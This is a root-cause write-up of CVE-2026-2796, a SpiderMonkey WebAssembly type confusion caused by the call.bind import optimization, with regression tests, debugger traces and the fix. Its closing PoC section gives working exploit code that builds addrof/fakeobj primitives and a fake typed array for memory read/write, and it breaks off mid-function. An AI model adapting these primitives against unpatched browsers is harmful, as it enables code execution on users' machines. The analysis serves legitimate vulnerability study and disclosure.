

# What The Claude (CVE-2026-2796): Where'd the Wrapper Go?

## Introduction

This writeup is part of **What The Claude**, a series where we attempt to analyze and root-cause a few of the browser bugs reported by Claude from Anthropic.

[Claude Mythos](https://red.anthropic.com/2026/mythos-preview/), "cybersecurity is solved", [zero-days are numbered](https://blog.mozilla.org/en/privacy-security/ai-security-zero-day-vulnerabilities/), hype, noise, stress, agony. That is what my security research feed has felt like lately. Something is clearly shifting as I write this, and I feel it's getting harder and harder to keep up with the pace. As someone who's spent time around browser internals, my curiosity spiked when Claude [made it rain](https://www.mozilla.org/en-US/security/advisories/mfsa2026-13/) in Firefox 148's advisory release. Additionally, The [MAD Bugs series by Calif](https://blog.calif.io/t/madbugs) also provide great insights into where things are heading.

I don't know how these vulnerabilities were found. Was it a "find bugs, make no mistake" prompt? Was it fuzzing plus Claude? Did Mozilla engineers provide enough context and internal knowledge for Claude to get moving? I don't know. But if you have been tinkering with Claude or Codex lately, it is hard to ignore how quickly these systems are improving.

So, without further ado, let's dig into one of the bugs Claude appears to have helped find.

## Summary

CVE-2026-2796 is a SpiderMonkey WebAssembly import bug where an optimized `.call.bind(...)` import can later be treated as if the module had imported the underlying wasm function directly.

Mozilla's [follow-up tests and comments](https://github.com/mozilla-firefox/firefox/commit/0605ac40b002d576688190a5b9921b8dcd1b6b96) describe the invariant:

> Unwrapped `Function.prototype.call.bind` imports should not be used when the unwrapped function is a wasm function.

TL;DR:

- A wasm module imports `Function.prototype.call.bind(wasmExport)`, not `wasmExport` itself.
- The call-bind import optimization [stores the underlying `wasmExport` in `FuncImportInstanceData::callable`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2581) and [records the wrapper with `isFunctionCallBind`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2585).
- Normal import calls still work because [`Instance::callImport` checks `isFunctionCallBind`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l268) and preserves the wrapper call shape.
- The bug appears when `ref.func` or table initialization asks for the imported function object instead of making a normal import call. [`getExportedFunction` looks only at `import.callable`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3779), sees a wasm `JSFunction`, and returns the underlying `wasmExport`.
- From there, the caller and callee disagree about the function type. The import site expects one signature, but the function that actually runs has another. That lets an object reference come back as an `i64`, and lets an `i64` come back as an object reference (`externref`).

The [regression](pocs/bug2013165.js) imports a `.call.bind(...)` wrapper with one function type, then uses `ref.func` and table initialization to get the imported function back. Those lookup paths return the underlying wasm export instead of the wrapper. The module then calls that export as if it had the import's declared type.

[The fix](https://hg.mozilla.org/mozilla-central/rev/f3659176c1eb673ccfa2e230910187c8da56c1bf): refuse the call-bind import optimization when the bound target is a wasm function.

## Setup

- macOS 26.4.1 with SpiderMonkey at the vulnerable parent [`4530713bf15e`](https://hg.mozilla.org/mozilla-central/rev/4530713bf15e377cce2bc0e6fa3e892608126f65)
- Confirmed the fix at [`f3659176c1eb`](https://hg.mozilla.org/mozilla-central/rev/f3659176c1eb673ccfa2e230910187c8da56c1bf). The release backport shipped in Firefox 148 as [`966d083dc362`](https://hg.mozilla.org/releases/mozilla-release/rev/966d083dc362fbce0c98da2e566d3e394705e468).

Running Mozilla's [regression](https://github.com/mozilla-firefox/firefox/blob/0605ac40b002d576688190a5b9921b8dcd1b6b96/js/src/jit-test/tests/wasm/regress/bug2013165.js):

```bash
python3 js/src/jit-test/jit_test.py \
  --no-progress \
  --show-output \
  --show-failed-cmd \
  obj-sm-opt/dist/bin/js \
  wasm/regress/bug2013165.js
```

Output:

```text
Exit code: -11
FAIL - wasm/regress/bug2013165.js
...
Error: assertion failed: expected exception TypeError, got RuntimeError: dereferencing null pointer
Stack:
  assertErrorMessage@.../js/src/jit-test/lib/asserts.js:64:15
  @.../js/src/jit-test/tests/wasm/regress/bug2013165.js:23:23
...
FAILURES:
    .../obj-sm-opt/dist/bin/js ... -f .../wasm/regress/bug2013165.js
```

From the fixed checkout, running the same regression:

```bash
python3 js/src/jit-test/jit_test.py \
  --no-progress \
  --show-output \
  --show-failed-cmd \
  obj-sm-debug/dist/bin/js \
  wasm/regress/bug2013165.js
```

Output:

```text
Exit code: 0
Exit code: 0
Exit code: 0
Exit code: 0
Exit code: 0
Exit code: 0
PASSED ALL
```

## Background

A wasm export is a function, memory, table, or global that a WebAssembly
module makes visible to JavaScript. In this bug, the important export is a
wasm function: JavaScript sees it as a callable function object, but under
the hood it is still a wasm function with wasm-typed parameters and returns.

### The Call-Bind Wrapper

Starting with the wrapper:

```javascript
let wrapped = Function.prototype.call.bind(targetFunc);
```

Calling `wrapped(thisValue, a, b)` is equivalent to calling `targetFunc.call(thisValue, a, b)`. For `Function.prototype.call`, the first
argument is special: it becomes the [JavaScript `this` value](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/this) for `targetFunc`. The remaining arguments become the normal arguments passed to `targetFunc`.

So if wasm calls the import with three arguments, SpiderMonkey has to map them like this:

| Wasm import argument | JavaScript call slot |
| -------------------- | -------------------- |
| argument 0           | `thisv`              |
| argument 1           | `invokeArgs[0]`      |
| argument 2           | `invokeArgs[1]`      |

Here `thisv` is SpiderMonkey's local variable for that `this` value, and `invokeArgs` is the array of normal JavaScript arguments. In [`Instance::callImport`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l247), the `isFunctionCallBind` flag determines that mapping:

- [`WasmInstance.cpp`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l299)

```cpp
MutableHandleValue argValue =
    isFunctionCallBind
        ? ((naturalIndex == 0) ? &thisv : invokeArgs[naturalIndex - 1])
        : invokeArgs[naturalIndex];
```

For this bug, there are two function objects to keep separate: the original
imported wrapper, `Function.prototype.call.bind(wasmExport)`, and the
underlying wasm export, `wasmExport`.

### The Call-Bind Import Optimization

 The `.call.bind(...)` wrapper pattern is handled by [`MaybeOptimizeFunctionCallBind`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2325). The optimization exists to avoid treating every `Function.prototype.call.bind(targetFunc)` import like an ordinary JavaScript wrapper call. Without the optimization, `import.callable` stays as the wrapper, and a normal import call eventually calls that wrapper through JS `Call`:

- [`WasmInstance.cpp`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l308)

```cpp
Rooted<JSObject*> importCallable(cx, instanceFuncImport.callable);
RootedValue fval(cx, ObjectValue(*importCallable));
if (!Call(cx, fval, thisv, invokeArgs, &rval)) {
  return false;
}
```

After the helper recognizes the wrapper, [`import.callable` is set to the
extracted target function and `isFunctionCallBind` is set to true](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2579):

- [`WasmInstance.cpp`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2579)

```cpp
} else if (JSObject* callable =
                   MaybeOptimizeFunctionCallBind(funcType, f)) {
  import.callable = callable;
  import.isFunctionCallBind = true;
}
```

Normal calls later [read `isFunctionCallBind` in `Instance::callImport`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l269) and use it to apply the wrapper argument mapping.

- [`WasmInstance.cpp`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l269)

```cpp
// If we're applying the Function.prototype.call.bind optimization, the
// number of arguments to the target function is decreased by one to account
// for the 'this' parameter we're passing
bool isFunctionCallBind = instanceFuncImport.isFunctionCallBind;
if (isFunctionCallBind) {
  // Guarded against in MaybeOptimizeFunctionCallBind.
  MOZ_ASSERT(invokeArgsLength != 0);
  invokeArgsLength -= 1;
}
```

The helper checks four things:

1. the import is a bound function,
2. there are no extra bound arguments beyond the bound `this`,
3. the bound target is `Function.prototype.call`,
4. the bound `this` value is callable and not a cross-compartment wrapper.

```cpp
// RCA: the import must be a bound function.
if (!f->is<BoundFunctionObject>()) {
  return nullptr;
}

BoundFunctionObject* boundFun = &f->as<BoundFunctionObject>();
JSObject* boundTarget = boundFun->getTarget();
Value boundThis = boundFun->getBoundThis();

// RCA: no extra bound arguments beyond the bound `this`.
if (boundFun->numBoundArgs() != 0) {
  return nullptr;
}

// RCA: the bound target must be Function.prototype.call.
if (!IsNativeFunction(boundTarget, fun_call)) {
  return nullptr;
}

// RCA: the bound `this` value must be callable and same-compartment.
if (!boundThis.isObject() || !boundThis.toObject().isCallable() ||
    IsCrossCompartmentWrapper(boundThis.toObjectOrNull())) {
  return nullptr;
}

// RCA: return the bound `this` value as the direct call target.
return boundThis.toObjectOrNull();
```

In JavaScript, [`.bind(...)`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/bind) creates a function that remembers its target function, its bound `this` value, and any bound arguments. In `Function.prototype.call.bind(wasmExport)`, the bound target is [`Function.prototype.call`](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Function/call), and the attached `this` value is `wasmExport`.

`MaybeOptimizeFunctionCallBind` extracts that attached `this` value and returns it as the direct function target. Because a wasm export is still a callable `JSFunction`, `wasmExport` passes the helper's callable check just like an ordinary JavaScript function.

Each wasm function import is represented by [`FuncImportInstanceData`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstanceData.h#l127). For this bug, two fields matter: `callable`, which may hold either the original import object or the target extracted from a `.call.bind(...)` wrapper, and `isFunctionCallBind`, the reminder bit that makes normal import calls use the wrapper argument layout described above.

- [`WasmInstanceData.h`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstanceData.h#l139)

```cpp
// A GC pointer which keeps the callee alive and is used to recover import
// values for lazy table initialization.
GCPtr<JSObject*> callable;

// See "Wasm Function.prototype.call.bind optimization" in WasmInstance.cpp
// for more information.
bool isFunctionCallBind;
```

### Imported Function Lookup

Some wasm paths do not call the import immediately. They ask for the imported
function object. That matters for `ref.func`, table initialization, and
re-exports. The common helper for that lookup is [`Instance::getExportedFunction`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3760). For imported functions, it looks at `FuncImportInstanceData::callable` and can return it as the wasm function object:

- [`WasmInstance.cpp`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3760)

```cpp
// RCA: this path is handling an imported function.
if (funcIndex < codeMeta().numFuncImports) {
  FuncImportInstanceData& import = funcImportInstanceData(funcIndex);

  // RCA: look only at import.callable.
  if (import.callable->is<JSFunction>()) {
    JSFunction* fun = &import.callable->as<JSFunction>();

    // RCA: if import.callable looks like a wasm function, return it.
    if (!codeMeta().funcImportsAreJS && fun->isWasm()) {
      instanceData.func = fun;
      result.set(fun);
      return true;
    }
  }
}
```

This is normal for direct wasm-function imports. If a module imports a wasm function, `ref.func` and table entries should point back to that same function. The optimized-wrapper case is where this assumption breaks.

## The Trigger

The trigger needs three ingredients:

1. a wasm export with one signature,
2. a `.call.bind(...)` wrapper around that export,
3. another wasm module that imports the wrapper under a different signature and then asks for the imported function object through `ref.func` or table initialization.

The snippets below are from Mozilla's [regression](pocs/bug2013165.js). First, the test creates a wasm export and wraps it with `Function.prototype.call.bind(...)`:

```javascript
let { callRef } = wasmEvalText(`(module
  (type $t (func))

  ;; callRef takes two arguments:
  ;;   1. any JavaScript value
  ;;   2. a wasm function reference
  (func (export "callRef") (param externref (ref $t))
    ;; Then it immediately calls argument #2 as a function.
    ;; local.get 1 selects the second parameter.
    (call_ref $t local.get 1)
  )
)`).exports;

let wrappedCallRef = Function.prototype.call.bind(callRef);
```

Calling:

```javascript
wrappedCallRef(thisValue, arg1, arg2)
```

behaves like:

```javascript
callRef.call(thisValue, arg1, arg2)
```

The wrapper matters because `.call(...)` uses the first value as JavaScript `this`. Only the remaining values become wasm arguments to `callRef`. That means losing the wrapper changes where the arguments land:

```text
wrapper preserved:

  wrappedCallRef(ref.null, 0xDEADBEEF)
        |
        v
  callRef.call(ref.null, 0xDEADBEEF)
        |
        +-- JavaScript this = ref.null
        +-- callRef arg0    = 0xDEADBEEF
        +-- callRef arg1    = missing

wrapper lost:

  callRef(ref.null, 0xDEADBEEF)
        |
        +-- callRef arg0 = ref.null
        +-- callRef arg1 = 0xDEADBEEF
```

Once the wrapper is gone, `0xDEADBEEF` becomes the value that `callRef` tries to call as a wasm function reference.

Then a second module imports that wrapper, but declares the import with a
different wasm signature:

```javascript
let { test } = wasmEvalText(`(module
  (type $t (func (param externref i64)))
  (func (import "" "callRef") (param externref i64))

  (func (export "test")
    ref.null extern
    i64.const 0xDEADBEEF
    ref.func 0
    call_ref $t
  )
  (elem declare func 0)
)`, {"": {"callRef": wrappedCallRef}}).exports;
```

At that point the same argument slot has two meanings: the importing module treats the second argument as an `i64`, while the real `callRef` expects it to be a function reference.

That disagreement should still be safe if the wrapper is preserved. If the call goes through `wrappedCallRef`, [the JS-to-wasm boundary converts the JavaScript arguments with `ToWebAssemblyValue`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3923) and checks whether `0xDEADBEEF` can be used [where `callRef` expects a function reference](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmValue.cpp#l272). It cannot, so the call should have thrown a normal `TypeError`.

The call path would have been safe, but `ref.func` takes a different route. It goes through [`getExportedFunction`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l1393), and that helper [can return `import.callable` as the wasm function reference](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3779). In this case, `import.callable` contains the extracted `callRef`, so `ref.func`gets `callRef` instead of the `.call.bind(...)` wrapper.
 
So the call effectively becomes:

```text
callRef(ref.null, 0xDEADBEEF)
```

but `callRef` interprets the second slot as:

```text
call_ref $t 0xDEADBEEF
```

The crash comes from that mismatch. `0xDEADBEEF` was passed as an integer, but `callRef` tries to call it as a function reference. Let's prove it in the debugger.

First, the `ref.func` helper asks `getExportedFunction` for function index `0`:

```text
frame #0: js::wasm::Instance::refFunc(instance=0x0000000108721100,
                                      funcIndex=0)
  at WasmInstance.cpp:1398

1397  RootedFunction exportedFunc(cx);
-> 1398  if (!instance->getExportedFunction(cx, funcIndex, &exportedFunc)) {
   1399    MOZ_ASSERT(cx->isThrowingOutOfMemory());
   1400    return AnyRef::invalid().forCompiledCode();
   1401  }

(uint32_t) funcIndex = 0
(JS::RootedFunction) exportedFunc = {
  ptr = nullptr
}
```

Inside `getExportedFunction`, the mismatch is visible in the import metadata. `isFunctionCallBind` is still true, but `import.callable` now points at the extracted `callRef` function, not the original wrapper:


```text
frame #0: js::wasm::Instance::getExportedFunction(..., funcIndex=0, ...)
  at WasmInstance.cpp:3781
frame #1: js::wasm::Instance::refFunc(...)
  at WasmInstance.cpp:1398

3779  if (funcIndex < codeMeta().numFuncImports) {
3780    FuncImportInstanceData& import = funcImportInstanceData(funcIndex);
-> 3781    if (import.callable->is<JSFunction>()) {
   3782      JSFunction* fun = &import.callable->as<JSFunction>();
   3783      if (!codeMeta().funcImportsAreJS && fun->isWasm()) {
   3784        instanceData.func = fun;
   3785        result.set(fun);
   3786        return true;
   3787      }

(uint32_t) funcIndex = 0
(js::wasm::FuncImportInstanceData &) import = 0x00000001087212f8: {
  callable = {
    value = 0x0000396e9a971f60{...}
  }
  isFunctionCallBind = true
}
```

To confirm which object this was, we can add the following prints:

```javascript
print("callRef: " + objectAddress(callRef)); // prints 0x396e9a971f60
print("wrappedCallRef: " + objectAddress(wrappedCallRef)); // prints 0xe4f9059b8
```


A few instructions later, `getExportedFunction` has turned that same `import.callable` value into the `JSFunction*` it is about to return:

```text
frame #0: js::wasm::Instance::getExportedFunction(...)
  at WasmInstance.cpp:3783

3782  JSFunction* fun = &import.callable->as<JSFunction>();
-> 3783  if (!codeMeta().funcImportsAreJS && fun->isWasm()) {
   3784    instanceData.func = fun;
   3785    result.set(fun);
   3786    return true;
   3787  }

(uint32_t) funcIndex = 0
(JSFunction *) fun = 0x0000396e9a971f60
```

That matches `callRef`, not `wrappedCallRef`, so this path returns `callRef`.

Right before `Instance::refFunc` returns, `finish` takes us back to its
generated wasm caller. The return value is the `callRef` function reference:

```text
(lldb) finish
Return value: (void *) $0 = 0x0000396e9a971f60
```

From there, single-stepping into the generated wasm code we can catch the argument misalignment before the crash. The prologue stores the incoming wasm arguments from `x0` and `x1` onto the stack:

```text
->  0x3e708654c06c: ldr    w16, [x23, #0x38]
    0x3e708654c074: sub    sp, sp, #0x60
    0x3e708654c078: str    x0, [sp, #0x58]
    0x3e708654c07c: str    x1, [sp, #0x50]
    ...
    0x3e708654c094: ldr    x15, [sp, #0x50]
```

Before we crash, the first wasm argument (`x0`) is `ref.null`, and the second wasm argument (`x1`) is `0xDEADBEEF`.

```text
x0 = 0x0000000000000000
x1 = 0x00000000deadbeef
```

The generated `call_ref` path expects the callee register to hold a wasm `JSFunction*`. It [loads the function's `WASM_INSTANCE_SLOT`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/jit/MacroAssembler.cpp#l6769), which [`FunctionExtended` defines as the wasm instance pointer for wasm exports](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/vm/JSFunction.h#l870). But `x9` contains `0xDEADBEEF`, not a wasm function object pointer.

```text
Process stopped
stop reason = EXC_BAD_ACCESS (code=1, address=0xdeadbf2f)

->  0x3e708654c0bc: ldr    x10, [x9, #0x40]

x9  = 0x00000000deadbeef
```


The second regression case reaches the same condition through table initialization instead of `ref.func`:

```javascript
let { test } = wasmEvalText(`(module
  ;; The importing module believes callRef has this signature:
  ;; callRef(any JS value, i64)
  (type $t (func (param externref i64)))
  (func (import "" "callRef") (param externref i64))

  ;; Initialize a wasm table with the imported function.
  (table (ref null $t) (elem 0))

  (func (export "test")
    ;; First argument: any JS value.
    ref.null extern
    ;; Second argument according to this module: an i64.
    i64.const 0xDEADBEEF
    ;; Fetch the imported function from the table, then call it.
    (table.get 0 i32.const 0)
    call_ref $t
  )
)`, {"": {"callRef": wrappedCallRef}}).exports;
```

The table case reaches the same lookup without using `ref.func`. [table initialization also calls `getExportedFunction` when it turns element segment indices into function references](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l1129). It stores import `0` in a wasm table. When `table.get` later retrieves it, the call reaches the same mismatch if the table contains `callRef` instead of the wrapper.

## Root Cause

After the `.call.bind(...)` optimization, `FuncImportInstanceData::callable` no longer necessarily describes the function object the module imported. That is safe only if every later user of `callable` also checks `isFunctionCallBind`. Normal import calls did that. Function lookup paths did not.

A later [follow-up](https://github.com/mozilla-firefox/firefox/commit/0605ac40b002d576688190a5b9921b8dcd1b6b96) documents the invariant:

```cpp
// The bound `this` must not be a wasm function, or else we'll need to update
// all the users of FuncImportInstanceData::callable so they don't mistake
// the unwrapped import for originally being a wasm function.
```

After the optimization, `callable` can contain an extracted target, but later code may still treat it as the function the module originally imported.



### `callable` Holds the Extracted Target

At import setup, the optimized branch [replaces the original wrapper with the extracted target and sets `isFunctionCallBind`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l2579):

```cpp
} else if (JSObject* callable =
                   MaybeOptimizeFunctionCallBind(funcType, f)) {
  import.instance = this;
  import.callable = callable;
  import.realm = import.callable->nonCCWRealm();
  import.code = code().sharedStubs().base() + fi.interpExitCodeOffset();
  import.isFunctionCallBind = true;
}
```

From here on, `import.callable` is the underlying wasm export, while `isFunctionCallBind` is the only field saying that the original import was a wrapper.

### The Missing Check

The bug appears when code asks for the imported function object. The first regression path is `ref.func`. [`Instance::refFunc` asks `getExportedFunction` for the function index and turns the returned `JSFunction` into a `FuncRef`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l1393):

```cpp
RootedFunction exportedFunc(cx);
if (!instance->getExportedFunction(cx, funcIndex, &exportedFunc)) {
  return AnyRef::invalid().forCompiledCode();
}
return FuncRef::fromJSFunction(exportedFunc.get()).forCompiledCode();
```

Inside `getExportedFunction`, [the import path checks `import.callable`, sees a wasm `JSFunction`, and returns it without checking `isFunctionCallBind`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l3779):

```cpp
if (funcIndex < codeMeta().numFuncImports) {
  FuncImportInstanceData& import = funcImportInstanceData(funcIndex);
  if (import.callable->is<JSFunction>()) {
    JSFunction* fun = &import.callable->as<JSFunction>();
    if (!codeMeta().funcImportsAreJS && fun->isWasm()) {
      instanceData.func = fun;
      result.set(fun);
      return true;
    }
  }
}
```

That is fine if the module directly imported a wasm function. It is wrong here because `import.callable` holds the extracted target, not the original `.call.bind(...)` wrapper, and this lookup does not check `isFunctionCallBind`.

Table initialization reaches the same lookup. While [turning element segment indices into function references, it also calls `getExportedFunction`](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/wasm/WasmInstance.cpp#l1129):

```cpp
RootedFunction fun(cx);
for (uint32_t i = 0; i < seg.numElements(); i++) {
  uint32_t funcIndex = seg.elemIndices[i];
  if (!getExportedFunction(cx, funcIndex, &fun) ||
      !onAnyRef(i, AnyRef::fromJSObject(*fun.get()))) {
    return false;
  }
}
```

## The Patch

The [patch](https://hg.mozilla.org/mozilla-central/rev/f3659176c1eb673ccfa2e230910187c8da56c1bf) blocks the problematic optimization case. If the bound `this` value is a wasm function, `MaybeOptimizeFunctionCallBind` refuses the optimization:

```diff
+  if (boundThis.toObject().is<JSFunction>() &&
+      boundThis.toObject().as<JSFunction>().isWasm()) {
+    return nullptr;
+  }
+
   return boundThis.toObjectOrNull();
```

After this change, `Function.prototype.call.bind(wasmFunc)` stays as the imported wrapper. `ref.func`, table initialization, and other lookup paths no longer see the underlying wasm function in `FuncImportInstanceData::callable`.

## The PoC

First we create a tiny wasm export that returns its argument. It only exists because the optimization we are testing needs a `.call.bind(...)` wrapper around a wasm export:

```javascript
let { callRef } = wasmEvalText(`(module
  (type $t (func (param externref) (result externref)))

  ;; Return the JS value we receive.
  ;; The next two modules import this function with the wrong types.
  (func (export "callRef") (param externref) (result externref)
    local.get 0
  )
)`).exports;

let wrappedCallRef = Function.prototype.call.bind(callRef);
```

`addrof` uses the `externref -> i64` direction. JavaScript passes an object. The importing module declares that the import returns `i64`. `ref.func` returns `callRef` instead of the wrapper, so the object reference returned by `callRef` is read back as an integer:

```javascript
let mAddrof = wasmEvalText(`(module
  (type $t (func (param externref) (result i64)))
  (func (import "" "callRef") (param externref) (result i64))

  ;; JS gives us an object. This module reads the return value as i64.
  (func (export "addrof") (param externref) (result i64)
    local.get 0

    ;; ref.func returns callRef instead of the wrapper.
    ref.func 0
    call_ref $t
  )
  (elem declare func 0)
)`, {"": {"callRef": wrappedCallRef}});
```

`fakeobj` uses the same bug in the other direction. JavaScript passes the address from `addrof`. The importing module declares that the import returns `externref`, so the returned payload is treated as a JavaScript value:

```javascript
let mFakeobj = wasmEvalText(`(module
  (type $t (func (param i64) (result externref)))
  (func (import "" "callRef") (param i64) (result externref))

  ;; JS gives us i64 bits. This module reads the return value as a JS value.
  (func (export "fakeobj") (param i64) (result externref)
    local.get 0

    ;; Same bug as addrof, but in the other direction.
    ref.func 0
    call_ref $t
  )
  (elem declare func 0)
)`, {"": {"callRef": wrappedCallRef}});
```

With `addrof` and `fakeobj` working, the next step is a fake `Uint8Array` for read/write. To make element access treat it like a typed array, the fake object needs a real `Uint8Array` `Shape`. SpiderMonkey [creates typed arrays with a `SharedShape` for the typed-array class](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/vm/TypedArrayObject.cpp#l389), and [every `JSObject` carries a `shape_` pointer used for object-layout checks](https://hg.mozilla.org/mozilla-central/file/4530713bf15e377cce2bc0e6fa3e892608126f65/js/src/vm/Shape.h#l45). We leak that pointer from a real `Uint8Array` and copy it into the fake object header.

The value returned by `fakeobj` is a wasm `externref` / `AnyRef` value. Low tag `0x2` means `JSString*`, so `fakeobj(fakeStringAddr | 2)` comes back to JavaScript as a string. Then `charCodeAt(i)` reads bytes from the fake string's `chars` pointer:

```javascript
const STRING_TAG = 2n; // wasm::AnyRefTag::String
const LINEAR_LATIN1 = 0x410; // JSString::LINEAR_BIT | LATIN1_CHARS_BIT

let shapeTA = new Uint8Array(16);
let stringScratch = new Uint8Array(96);
let scratch = new Uint8Array(96);

// Nursery objects can move during minor GC. We are about to save raw addresses
// into fake object headers; those raw addresses are not GC-managed pointers and
// will not be updated if the backing arrays move. Force these arrays into
// tenured space first, then compute addrof(obj) + INLINE_OFF.
gc();
gc();

let stringScratchInline = addrof(stringScratch) + INLINE_OFF;
let fakeStringAddr = stringScratchInline + BigInt(FAKE_OFF);
let fakeStringValue = fakeStringAddr | STRING_TAG;
```

The fake string header lives in `stringScratch`'s inline bytes:

```javascript
function stringRead64(addr) {
  writeU32(stringScratch, FAKE_OFF + 0, LINEAR_LATIN1);
  writeU32(stringScratch, FAKE_OFF + 4, 8);
  writeU64(stringScratch, FAKE_OFF + 8, addr);
  writeU64(stringScratch, FAKE_OFF + 16, 0n);

  let s = fakeobj(fakeStringValue);
  let v = 0n;
  for (let i = 0; i < 8; i++) {
    v |= BigInt(s.charCodeAt(i)) << BigInt(i * 8);
  }
  return v;
}

let shapeTAAddr = addrof(shapeTA);
let shapePtr = stringRead64(shapeTAAddr);
```

Now we can build a fake `Uint8Array`. Its object header lives in `scratch`'s inline bytes. The copied `shapePtr` makes SpiderMonkey treat the fake object as a real `Uint8Array`, and `DATA_SLOT` points at the address we want to read or write:

```javascript
function buildFakeTA(targetAddr, len) {
  writeU64(scratch, FAKE_OFF + 0, shapePtr);
  writeU64(scratch, FAKE_OFF + 8, 0n);
  writeU64(scratch, FAKE_OFF + 16, fakeElems);
  writeU64(scratch, FAKE_OFF + 24, SLOT0_BUFFER_FALSE);
  writeU64(scratch, FAKE_OFF + 32, BigInt(len));
  writeU64(scratch, FAKE_OFF + 40, 0n);
